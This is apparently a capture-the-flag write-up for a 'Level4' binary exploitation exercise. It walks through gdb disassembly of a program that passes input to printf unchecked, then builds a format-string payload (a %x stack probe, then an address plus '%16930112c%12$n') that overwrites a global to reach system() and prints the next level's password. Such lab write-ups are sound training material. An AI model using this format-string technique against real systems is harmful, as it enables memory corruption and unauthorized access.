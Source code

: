 # Level4

    (gdb) disas main
        Dump of assembler code for function main:
        0x080484a7 <+0>:	push   %ebp
        0x080484a8 <+1>:	mov    %esp,%ebp
        0x080484aa <+3>:	and    $0xfffffff0,%esp
        0x080484ad <+6>:	call   0x8048457 <n>
        0x080484b2 <+11>:	leave  
        0x080484b3 <+12>:	ret    
    End of assembler dump.
    (gdb) disas n
    Dump of assembler code for function n:
        0x08048457 <+0>:	push   %ebp
        0x08048458 <+1>:	mov    %esp,%ebp
        0x0804845a <+3>:	sub    $0x218,%esp
        0x08048460 <+9>:	mov    0x8049804,%eax
        0x08048465 <+14>:	mov    %eax,0x8(%esp)
        0x08048469 <+18>:	movl   $0x200,0x4(%esp)
        0x08048471 <+26>:	lea    -0x208(%ebp),%eax
        0x08048477 <+32>:	mov    %eax,(%esp)
        0x0804847a <+35>:	call   0x8048350 <fgets@plt>
        0x0804847f <+40>:	lea    -0x208(%ebp),%eax
        0x08048485 <+46>:	mov    %eax,(%esp)
        0x08048488 <+49>:	call   0x8048444 <p>
        0x0804848d <+54>:	mov    0x8049810,%eax
        0x08048492 <+59>:	cmp    $0x1025544,%eax
        0x08048497 <+64>:	jne    0x80484a5 <n+78>
        0x08048499 <+66>:	movl   $0x8048590,(%esp)
        0x080484a0 <+73>:	call   0x8048360 <system@plt>
        0x080484a5 <+78>:	leave  
        0x080484a6 <+79>:	ret    
    End of assembler dump.
    (gdb) disas p
    Dump of assembler code for function p:
        0x08048444 <+0>:	push   %ebp
        0x08048445 <+1>:	mov    %esp,%ebp
        0x08048447 <+3>:	sub    $0x18,%esp
        0x0804844a <+6>:	mov    0x8(%ebp),%eax
        0x0804844d <+9>:	mov    %eax,(%esp)
        0x08048450 <+12>:	call   0x8048340 <printf@plt>
        0x08048455 <+17>:	leave  
        0x08048456 <+18>:	ret    
    End of assembler dump.

This is quite similar to the previous level. The main calls the n function, the n function calls the p function (which only calls printf before returning), and then makes a comparison with 0x1025544 (16930116 in dec). If the comparison is equal, the function prints the password of level5.

In the last exercise it was easy to send 0x40 (64 dec) characters, but here it's quite a bigger number. We will need to find an elegant solution.

Just kidding I'm gonna do exactly the same thing as before.

First of all, let's find the beginning of our input in the stack :

    $ python -c 'print "AAAA" + " %x" * 20' > payload
    $ cat payload | ./level4 
    AAAA b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825

We can see it corresponds to the 12th %x, so we will set the address to the 12th argument (%12$n).

In the n() function :

        0x08048488 <+49>:	call   0x8048444 <p>
        0x0804848d <+54>:	mov    0x8049810,%eax

We just have to pass the address being moved to the EAX register as an argument like in the previous exercise, followed by 16930112 characters (the address is still 4 bytes)

    $ python -c 'print "\x10\x98\x04\x08" + "%16930112c%12$n"' > payload
    $ cat payload - | ./level4
    [... 17 millions characters being printed ...]
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
